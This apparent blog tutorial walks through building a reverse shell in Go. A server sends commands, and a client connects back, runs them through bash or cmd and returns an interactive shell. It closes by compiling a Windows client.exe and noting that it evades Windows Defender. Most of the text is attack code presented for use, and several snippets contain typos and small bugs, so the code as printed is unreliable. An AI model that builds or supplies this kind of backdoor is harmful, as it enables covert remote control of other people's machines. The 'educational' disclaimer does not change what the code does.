







> This blog is for educational purpose only.

## Server

To start off, our server need following functionality:

1. Listen for tcp connection
2. Read command from stdin
3. Send command to client

### Listen for tcp connection

```go
func main() {
  // Initialize tcp listener on port 8888
  ln, err := net.Listen("tcp", ":8888")
  if err != nil {
    log.Fatal(err)
  }
  // Log every connection if any
  for {
    fmt.Printf("[+] Waiting for connection on %s\n", ln.Addr().String())
    conn, err := ln.Accept()
    if err != nil {
        log.Fatal(err)
    }

    fmt.Printf("[+] Connection from %s\n", conn.RemoteAddr())
  }
}
```

Let's test our server with netcat



### Read command from stdin

Create a new function called `input`, takes in a string, return what we have inputed, but in type []byte instead of string. Because to write data to the connection, it need type []byte.

Using `bufio.NewScanner()`, it will strip the `\n` at the end.

```go
for input(p string) []byte {
  fmt.Printf(p)
  scanner := bufio.NewScanner(os.stdin)
  scanner.Scan()
  if err := scanner.Err(); err != nil {
    log.Fatal(err)
  }
  return scanner.Bytes()
}
```

### Send command to client

With the text we type in the terminal, we're going to send it to the client, using variable `conn` in the main fucntion. `conn` is type of `net.Conn`, it represent the connection between the client and the server. 

Let's add a function `handler()` that operates on the `conn` in main function.

```diff
func main() {
  ...
  for {
    ...
    fmt.Printf("[+] Connection from %s\n", conn.RemoteAddr())
+   handler(conn) 
  }
}
```

Function `hanlder` will wait for our input using `input()` , send them to the client using `conn.Write()`

```go
func hanlder(conn net.Conn) {
  // defer function will be called when the function returns.
  // In this case, it will close the connection and print the message
  defer func() {
    conn.Close()
    fmt.Printf("[-] Connection to %s closed\n", conn.RemoteAddr())
  }()
  // Write out input to client, if the input is "exit" then stop the loop
  for {
    cmd := input(">> ")
    conn.Write(cmd)
    if bytes.Equal(cmd, []byte("exit")) {
      break
    }
  }  
}
```

Again, let's test is out using netcat



## Client

Great! Now we have a server can send the commands as we type, next is to build a client that:

1. Connect to server using tcp
2. Receive command from server
3. Perfrom specific action based on server's command

```go
func main() {
  // Connect to server
  host := "127.0.0.1:8888"
  conn, err := net.Dial("tcp", host)
  if err != nil {
    fmt.Printf("[-] Tcp Errpr %v\n", err)
    return
  }

  defer conn.Close()
  fmt.Printf("[+] Connected to %s!\n", host)
  // Loop reading commands from server and print it out.
  for {
    // Read data into variable buf which has size of 4096 byte
    // Attention here when initializing []byte this way, it will create
    // An []byte with 4096 0s -> [0,0,0...]
    buf := make([]byte, 4096)
    _, err := conn.Read(buf)
    if err != nil {
      log.Fatal(err)
    }

    fmt.Printf("Server: %s\n", buf)
    // Exit the loop when server send "exit"
    // bytes.Equal(buf, []byte("exit")) will return false
    // as []byte("exit") only has 4 byte without [0,0,0...] at behind. 
    // Use bytes.Trim() will get rid of all byte '0' in buf
    if bytes.Equal(bytes.Trim(buf,"\x00"), []byte("exit")) {
      fmt.Printf("[-] Close connection!\n")
      break
    }
  }
}
```

After testing the client/server, it works as we intended. 

- Server that can send data
- Client that connects to server and accept data
- Client exit program when server send `exit`



The communication now can be simplified as one way communication `Server -> Client`:

- Server send data to client.

For our next feature, to execute command, we need to implement two-way communication `Server <-> Client` to execute command and get results back:

- Server send command
- Client execute command and send result back to Server
- Server recieve the result and print it out

## Client - execute command

First add one condition to decide if the server wants to execute command, if server sends `cmd`, the client will wait for the next command the server send, execute them and print it out

```go
if bytes.Equal(bytes.Trim(buf, "\x00"), []byte("exit")) {
  ...
} else if bytes.Equal(bytes.Trim(buf, "\x00"), []byte("cmd")) {
  // use a new variable to store the commands from server
  cmdbuf := make([]byte, 4096)
  _, err := conn.Read(cmdbuf)
  if err != nil {
    log.Fatal(err)
  }
  // execute command using cmd() and print the result
  cmdout := cmd(cmdbuf)
  fmt.Printf("%s\n", out)
}
```

Next, let's write our `cmd()`, to execute command in golang, we will use the built-in `os.exec()`

```go
func cmd(buf []byte) []byte {
  // Construct out command based on the system
  var cmd *exec.Cmd
  if runtime.GOOS == "windows" {
    cmd = exec.Command("cmd", "/c", string(bytes.Trim(buf, "\x00")))
  } else {
  cmd = exec.Command("/bin/bash", "-c", string(bytes.Trim(buf, "\x00")))
  }
  // log the executed command after the func return
  defer func() {
    fmt.Printf("[+] cmd: %s\n", cmd.String())
  }()
  // Retrive the stdout and stderr after the command execution
  var stdout, stderr bytes.Buffer
  cmd.Stdout = &stdout
  cmd.Stderr = &stderr
  err := cmd.Run()
  if err != nil {
    fmt.Printf("String: %s\n", cmd.String())
    log.Fatalf("cmd.Run() failed with %s\n", err)
  }
  // return the stdout and stderr together
  return append(stdout.Bytes(), stderr.Bytes()...)
}
```

## Server - execute command

Client's code is ready, now let's update our server by adding an if condition for command execution in func `handler()`

```go
if bytes.Equal(cmd. []byte("exit")) {
  return
} else if bytes.Equal(cmd, []byte("cmd")) {
  // Change prompt for input the command to be executed in client
  command := input("[Command] > ")
  conn.Write(command)
  // Retrive the output from client
  buf := make([]byte, 4096)
  _, err := conn.Read(buf)
  if err != nil {
    log.Fatal(err)
  }
  fmt.Printf("%s", buf)
}
```

Let' test our program. The command is executed and we got the result back



## Server - shell

We improved our code to be able to execute a single command one at a time. Next we are going to build functionality that gives us an interactive shell. 
In the above example, to order to execute command, our server's logic are

1. Enter command after `[Command] >`, send to client
2. Read output from client **once**, print it out
3. Back to the start of the loop

In step 2, if the client send data multiple times, server will only read once, which is not suitable for our interactive shell. 

To solve this, we need to use goroutine, which is the thread for golang. In order to start an interactive shell, the logic will be

1. Continuely Read output from client in the background (goroutine)
2. Wait for the commands which is the user's input
3. Send commands to client 

Because in step 1, we make the server listen for client's output **IN BACKGROUND**, anytime the client send data to server, it will be captured. Server's `handler()` would be updated by adding an `else if` condition

```go
if bytes.Equal(cmd, []byte("exit")) {
  ...
} else if bytes.Euqal(cmd, []byte("shell")) {
  fmt.Printf("[+] Start interactive shell...\n")
  // context is used to notify goroutine to stop
  ctx,cancel := context.WithCancel(context.Background())
  // Whenever client sends data to server, get the data and print it out
  go func() {
    for {
      select {
      // cancel() will notify ctx.Done()
      // so when the user enter "exit", this goroutine will stop
      case <-ctx.Done():
        return
      default:
        shellbuf := make([]byte, 4096)
        _, err := conn.Read(shellbuf)
        if err != nil {
          log.Fatal(err)
        }
        fmt.Printf("%s", shellbuf)
      }
    }
  }()
  // send user's input to client
  for {
    command := input("")
    conn.Write(command)
    // if "exit", break the loop and stop the goroutine as well
    if bytes.Equal(command, []byte("exit")) {
      cancel()
      break
    }
  }
}
```

## Client - shell

On client's side, we need to `recv` the command from server, `send` the result back

Once we have our command, to interactively execute command, we need to use **pipe** of `stdin`, `stdout`, `stderr`,
we write command to `stdin` pipe, and get the output from `stdout` and `stderr` pipe

```go
cmd := exec.Command("/bin/bash")
stdin, _ := cmd.StdinPipe()
stdout, _ := cmd.StdoutPipe()
stderr, _ := cmd.StderrPipe()
cmd.Run()
```

In above code example, it's different from how we execute command before. In this way, `cmd.Run()` will hang waiting for its `stdin`,
and whenever we write into stdin, it will be executed by `/bin/bash`, output will be automatically piped into `stderr` and `stdout`.
`cmd.Run()` will be stopped when the `stdin` is `exit\n` because it will exit the current shell `/bin/bash`

The logic for client shell should be

- **Whenever** there's server's command, `recieve` it and write it to `stdin`
- **Whenever** there's command's `stdout/stderr`, `send` them to server 



I use **Whenever** to address that we're going to use goroutine. 
We can see from the image that `recv` and `send` will be set at the middle of different goroutine,
for ease of communication between different goroutines or threads you may call it, golang provides us with `chan` type,
which can wait for a value and return a value to other variable

First let's add a if condition for `shell`

```go
if bytes.Equal(bytes.Trim(buf, "\x00"), []byte("exit")){
  ...
} else if bytes.Equal(bytes.Trim(buf, "\x00"), []byte("shell")) {
  // Initialize two channel that holds type []byte
  send := make(chan []byte)
  recv := make(chan []byte)
  netshell(conn, send, recv)  
}
```

Next implement `netshell()` which have two goroutines, one for reading server's command to `recv`, one for reading command's output from `send` and send it to server

```go
func netshell(conn net.Conn, send chan []byte, recv chan []byte) {
  // log to terminal when this function start and return
  fmt.Printf("[+] Start net shell\n")
  ctx, cancel := context.WithCancel(context.Background())
  defer func() {
    cancel()
    fmt.Printf("[*] Exiting net shell\n")
  }()
  // Goroutine that read from server and write it to channel recv
  go func() {
    for {
      buf := make([]byte, 4096)
      conn.Read(buf)
      command := bytes.Trim(buf, "\x00")
      fmt.Printf("[*] read: %s, len %d\n", command, len(command))
      // Exit this goroutine and call ctx.Done() to shut down the goroutine below
      if bytes.Equal(command, []byte("exit")) {
        recv <- []byte("exit\n")
        ctx.Done()
        return
      }
      recv <- command
    }
  }()
  // Goroutine that read from channel send and send the result to server
  // If the function returns, meaning the cmd.Run() exit
  // then shut down this goroutine
  go func() {
    for {
      select {
      case <-ctx.Done():
        return
      case outgoing := <-send:
        conn.Write(outgoing)
      }
    }
  }()
  // Check windows/linux
  shellpath := "/bin/bash"
  if runtime.GOOS == "windows" {
      shellpath = "cmd"
  }
  reverseShell(shellpath, send, recv)
}
```

Finally we complete this program by finishing the `revershell()`, where we will deal with `stdin`, `stdout`,`stderr`

```go
func reverseShell(path string, send chan<- []byte, recv <-chan []byte) {
  // When the function return, which means cmd.Run() is finished
  // notify all goroutines to close
  ctx, cancel := context.WithCancel(context.Background())
  defer func() {
    cancel()  
  }()

  cmd := exec.Command(path)
  stdin, _ := cmd.StdinPipe()
  stdout, _ := cmd.StdoutPipe()
  stderr, _ := cmd.StderrPipe()
  // for stdin: 
  // 1. Get commands from channel recv
  // 2. Write the commands to stdin pipe
  go func() {
    for {
      select {
      case input := <-recv:
        stdin.Write(append(input, byte('\n')))
      case <-ctx.Done():
          return
      }
    }
  }()
  // for stdout: 
  // 1. Pipe stdout to buf
  // 2. Send buf to channel send
  bufsize := 4096
  go func() {
    for {
      select {
      case <-ctx.Done():
        return
      default:
        buf := make([]byte, bufsize)
        stdout.Read(buf)
        send <- buf
      }
    }
  }()
  // for stderr:
  // 1. Pipe stderr to buf
  // 2. Send buf to channel send
  go func() {
    for {
      select {
      case <-ctx.Done():
        return
      default:
        buf := make([]byte, bufsize)
        stderr.Read(buf)
        send <- buf
      }
    }
  }()
  cmd.Run()
}
```

Now let's see what our final program looks like



Great! It does what we intended, now it's the exciting moment to see how Windows Defender thinks of our program

> Don't forget to change the `IP` in the client.go!

let's build executable for windows called `client.exe` and start of our server

```bash
GOOS=windows GOARCH=amd64 go build -o client.exe client/client.go
go run server/server.go
```

Transfer it to windows machine and run it... And it works. This is a showcase program, which has a lot to improve. However, it do completed the purpose of this article



## Reference

> - https://github.com/BishopFox/sliver.git
> - https://github.com/moloch--/gshell.git
> - https://blog.kowalczyk.info/article/wOYk/advanced-command-execution-in-go-with-osexec.html
